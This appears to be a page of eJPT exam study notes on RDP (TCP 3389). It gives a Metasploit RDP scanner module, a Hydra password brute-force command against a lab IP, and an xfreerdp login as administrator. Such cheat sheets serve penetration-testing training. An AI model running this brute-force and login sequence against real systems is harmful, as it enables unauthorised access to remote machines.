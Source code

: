 ## RPD - p3389

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

Remote desktop protocol TCP 3389

### Metasploit
```
use auxiliary/scanner/rdp/rdp_scanner
```
### Hydra
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.10.10.1 -s 3333 -t 4
```
### Connect
```
xfreerdp /u:administrator /p:qwertyuiop /v:10.10.10.1:3333
```
